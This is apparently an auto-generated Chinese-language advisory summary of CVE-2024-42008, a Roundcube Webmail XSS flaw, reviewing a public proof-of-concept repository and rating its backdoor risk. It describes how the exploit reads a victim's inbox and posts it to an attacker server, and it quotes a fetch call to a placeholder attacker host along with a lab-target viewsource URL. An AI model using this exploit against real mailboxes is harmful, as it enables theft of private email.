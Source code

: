 ## CVE-2024-42008-Roundcube-XSS

**漏洞编号:** CVE-2024-42008

**漏洞类型:** 跨站脚本攻击 (XSS)

**影响应用:** Roundcube

**危害等级:** 高危，允许远程攻击者窃取和发送受害者的电子邮件

**影响版本:** <= 1.5.7, 1.6.x <= 1.6.7

**利用条件:** 需要受害者打开包含恶意附件的电子邮件

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-42008 是 Roundcube Webmail 1.5.7 及 1.6.x 到 1.6.7 版本中 `rcmail_action_mail_get->run()` 函数存在的一个跨站脚本 (XSS) 漏洞。

**有效性分析:**

根据漏洞库信息和搜索结果，该漏洞是真实存在的，并且影响了 Roundcube 的多个版本。提供的漏洞利用代码尝试利用此漏洞。

`exploit.js` 脚本从受害者的收件箱中读取前 10 封邮件的内容，并将这些内容 POST 到攻击者的服务器 `meu_ip`。脚本通过修改 `mail.drip.htb` 上的请求来提取邮件内容，并通过 `lerTexto` 函数将内容发送到攻击者的服务器。

`script.py` 脚本将 `exploit.js` 脚本进行 base64 编码，并将其插入到 HTML payload 中。然后，该 payload 被作为电子邮件消息发送给受害者。

**利用方式:**

1.  攻击者构造一个包含恶意 Content-Type header 的电子邮件附件。
2.  受害者打开包含恶意附件的电子邮件。
3.  恶意附件触发 XSS 漏洞，执行 `exploit.js` 代码。
4.  `exploit.js` 代码读取受害者的电子邮件内容并将内容发送到攻击者的服务器。
5. 攻击者可以使用窃取的邮件内容进行进一步攻击，例如窃取凭据或发送钓鱼邮件。

**投毒风险:**

代码中存在一定的投毒风险，分析如下：
1. `script.py` 中的 `ip_atacante = 'CHANGE THIS TO ATTACKERS IP'`  和 `vitima = 'VICTIM EMAIL'` 变量需要用户手动配置，如果用户不小心配置成了错误的 IP 地址，或者使用了漏洞作者提供的IP地址（作者故意引导），那么攻击数据就会发送到攻击者指定的地址，增加了潜在风险。
2. `exploit.js` 中的 `http://mail.drip.htb/?_task=mail&_uid='+id+'&_mbox=INBOX&_action=viewsource&_extwin=1'` 是针对特定的`drip.htb` 域名，这意味着该POC可能是针对特定目标而设计的，而并非通用漏洞利用。
3. `exploit.js` 中的 `fetch('http://meu_ip/',{` 其中的`meu_ip`也需要修改为攻击者的IP地址。
4. 虽然脚本的功能是读取邮件并发送到攻击者的服务器，并没有直接执行恶意代码的部分。但是如果作者控制了接收数据的服务器，则可能存在下一步投毒的可能.

综合来看，投毒风险的概率为10%。主要是配置IP和脚本行为本身的潜在风险，但是可以判断整体风险较低。

**项目地址:** [Foxer131/CVE-2024-42008-9-exploit](https://github.com/Foxer131/CVE-2024-42008-9-exploit)

**漏洞详情:** [CVE-2024-42008](https://nvd.nist.gov/vuln/detail/CVE-2024-42008)